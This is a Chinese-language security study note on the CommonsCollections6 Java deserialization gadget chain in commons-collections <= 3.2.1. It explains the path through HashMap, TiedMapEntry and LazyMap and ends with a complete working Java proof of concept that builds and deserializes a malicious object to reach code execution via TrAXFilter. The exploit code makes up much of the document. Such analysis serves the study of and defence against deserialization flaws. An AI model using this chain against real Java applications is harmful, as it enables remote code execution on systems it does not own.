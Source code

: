 - [CC6](#cc6)
  - [HashMap#hash](#hashmaphash)
  - [TiedMapEntry#hashCode](#tiedmapentryhashcode)
  - [TiedMapEntry#getValue](#tiedmapentrygetvalue)
  - [POC](#poc)
# CC6
条件:  
* commons-collections <= 3.2.1

## HashMap#hash
在HashMap的`readObject`方法中最后调用了`putVal(hash(key), key, value, false, false);`方法,其中对`key`调用了`hash`进行计算,
![](2021-12-29-14-24-48.png)
而在对应的`hash`中又调用了key的`hashCode`.
![](2021-12-29-14-27-08.png)
## TiedMapEntry#hashCode
当key为`TiedMapEntry`对象时就会来到其`hashCode`方法中,其中调用了该对象的`getValue()`方法.
![](2021-12-29-14-30-24.png)
## TiedMapEntry#getValue
而在其`getValue`方法中调用了`this.map.get(this.key)`方法,这就和CC5的TiedMapEntry后续利用方式一致了,通过LazyMap.get方法进入`Transform`利用链.
![](2021-12-29-14-33-09.png)
## POC
其中为了防止在调用`HashMap.put`时触发`LazyMap`链,所以在Put元素之前先传一个空的`chainedTransformer`,后续再用反射重新传入`Transformer`利用链.  
同时触发`LazyMap`链时会写入`test`元素,导致在反序列化时,在`LazyMap`的`get`方法中不会进入调用`transform`的条件分支,因为已经此时的`Map`中已经有一个相同的元素了,所以需要在`Put`触发`LazyMap`链后将写入的`test`元素用`remove`方法移除.  
![](2021-12-29-14-38-05.png)
完整POC:
```java
    public static void main(String[] args) throws Exception {
        Transformer[] faketrans = new Transformer[]{};
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[] {getTemplate()})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(faketrans);
        HashMap fake = new HashMap();
        Map outMap = LazyMap.decorate(fake,chainedTransformer);
        TiedMapEntry Tiedmap =  new TiedMapEntry(outMap,"test");
        HashMap hashMap = new HashMap();
        hashMap.put(Tiedmap,"1");
        outMap.remove("test");
        setFieldValue(chainedTransformer,"iTransformers",transformers);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(hashMap);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        ois.readObject();
    }
```
调用栈如下:
![](2021-12-29-14-22-55.png)
